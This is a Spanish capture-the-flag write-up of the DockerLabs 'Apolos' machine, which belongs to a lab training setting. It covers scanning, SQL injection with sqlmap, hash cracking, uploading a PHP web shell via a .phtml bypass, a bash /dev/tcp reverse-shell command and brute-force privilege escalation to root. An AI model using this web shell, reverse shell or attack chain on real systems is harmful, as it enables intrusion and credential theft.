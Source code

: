 # apolos

Máquina "Apolos" de [DockerLabs](https://dockerlabs.es)

Autor: [Luisillo\_o](https://www.youtube.com/@Luisillo_o)

Dificultad: Medio

![apolos](../../maquina-apolos/img/apolos.png)

## RECONOCIMIENTO

Comenzamos haciendo un escaneo de nmap:

```css
nmap -p- -n -vvv -sSVC -Pn --open --min-rate 5000 172.17.0.2 -oN escaneo.txt
```

```ruby
# Nmap 7.94SVN scan initiated Thu Sep  5 15:43:53 2024 as: nmap -p- -n -vvv -sSVC -Pn --open --min-rate 5000 -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000013s latency).
Scanned at 2024-09-05 15:43:53 -03 for 8s
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Apple Store
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Sep  5 15:44:01 2024 -- 1 IP address (1 host up) scanned in 8.48 seconds
```

Solo está abierto el puerto 80 y corre apache httpd.

**Puerto 80:**

![80](../../maquina-apolos/img/apple.png)

Parece ser una página en la que podemos comprar.

Ahora un fuzzing con gobuster:

```css
gobuster dir -u http://<ip> -w <wordlist> -x php,html,txt
```

```ruby
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,php,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/img                  (Status: 301) [Size: 306] [--> http://172.17.0.2/img/]
/index.php            (Status: 200) [Size: 5013]
/login.php            (Status: 200) [Size: 1619]
/register.php         (Status: 200) [Size: 1607]
/profile.php          (Status: 302) [Size: 0] [--> login.php]
/uploads              (Status: 301) [Size: 310] [--> http://172.17.0.2/uploads/]
/logout.php           (Status: 302) [Size: 0] [--> login.php]
/vendor               (Status: 301) [Size: 309] [--> http://172.17.0.2/vendor/]
Progress: 93087 / 882244 (10.55%)
===============================================================
Finished
===============================================================
```

Podemos registrarnos, por lo que simplemente nos creamos una cuenta y listo. Una vez registrados veremos esto:

![reg](../../maquina-apolos/img/reg.png)

Si tocamos el boton de comprar ahora veremos una página en la que podemos comprar, pero lo que nos interesa es lo de buscar productos: ![buscar](../../maquina-apolos/img/buscar.png)

este nos interesa porque funciona bien, pero si probamos en poner una inyección sql como `or 1=1-- -`, veremos que nos muestra los productos:

![sql](../../maquina-apolos/img/sql.png)

Esto porque se ve que realiza una petición a la base de datos de manera insegura y 1 siempre es igual a 1, por lo que nos muestra los productos. Ahora que sabemos esto podemos usar `sqlmap`, para intentar leer la base de datos.

**sqlmap:**

Para usar sqlmap utilizaremos la request, por lo que abriremos el burpsuite, y capturaremos la petición al buscar un producto:

![burp](../../maquina-apolos/img/burp.png)

La copiamos y la metemos en un archivo llamado request. Una vez hecho eso ejecutaremos sqlmap de la siguiente manera:

```css
sqlmap -r request --batch --dump
```

```css
+----+------------------------------------------+----------+
| id | password                                 | username |
+----+------------------------------------------+----------+
| 1  | 761bb015d7254610f89d9a7b6b152f1df2027e0a | luisillo |
| 2  | 7f73ae7a9823a66efcddd10445804f7d124cd8b0 | admin    |
| 3  | a94a8fe5ccb19ba61c4c0873d391e987982fbbd3 | test     |
| 4  | a94a8fe5ccb19ba61c4c0873d391e987982fbbd3 | maci     |
+----+------------------------------------------+----------+
```

Ahora usaremos `john` para crackear la contraseña de admin. Para esto nos la copiamos y lo metemos en un archivo llamado hash, luego de eso ejecutaremos john:

```css
john --wordlist=<wordlist> hash
```

Ahora tenemos la contraseña de admin: 0844575632

## INTRUSION

Ahora que tenemos el usuario y contraseña del usuario admin, iniciamos sesión y vamos a donde dice "Sección de Administración", entramos y tendremos un panel en el que podemos subir archivos al ir a "configuracion":

![admin](../../maquina-apolos/img/ad.png)

Ahora subiremos un ".php" con el siguiente contenido:

```php
<?php
       system($_GET['cmd']);
?>
```

El problema es que al intentar subir un ".php" nos dice que no se pueden subir, por lo que buscaremos como bypasearlo para que lo suba igual. [HackTricks](https://book.hacktricks.xyz/pentesting-web/file-upload):

![tricks](../../maquina-apolos/img/tricks.png)

Como vemos hay muchas formas, en mi caso me funcionó ".phtml", ahora vamos a `/uploads/` y ya veremos el archivo. Ahora solo nos queda escuchar con netcat en el puerto 443 y enviar esto desde el navegador:

```css
http://<ip>/uploads/cmd.phtml?cmd=bash -c 'bash -i >%26 /dev/tcp/172.17.0.1/443 0>%261'
```

## ESCALADA DE PRIVILEGIOS

#### www-data

Antes de continuar haremos el tratamiento de la tty:

```css
script /dev/null -c bash # Ejecutamos y presionamos ctrl+Z
stty raw -echo;fg # Ejecutamos y escribimos "reset xterm" y enter
export TERM=xterm && export SHELL=bash
```

Luego de buscar un rato, la única manera de escalar es usando el script [su-bruteforce](https://github.com/carlospolop/su-bruteforce) con el mismo diccionario:

```css
./suBF.sh -u luisillo_o -w top12000.txt
```

esto demora unos 6 minutos pero finalmente encuentra la contraseña "19831983".

#### Luisillo\_o

Si ejecutamos `id` veremos que pertenecemos al grupo "shadow":

```css
uid=1001(luisillo_o) gid=1001(luisillo_o) groups=1001(luisillo_o),42(shadow)
```

por lo que si buscamos, hay una forma de escalar:

https://www.mohammedalani.com/tutorials/cracking-a-shadow-password-using-john-the-ripper/

Una vez hecho todo tal cual como sale en la página, habremos escalado a root con la contraseña "rainbow2":

![root](../../maquina-apolos/img/root.png)

Gracias por leer.
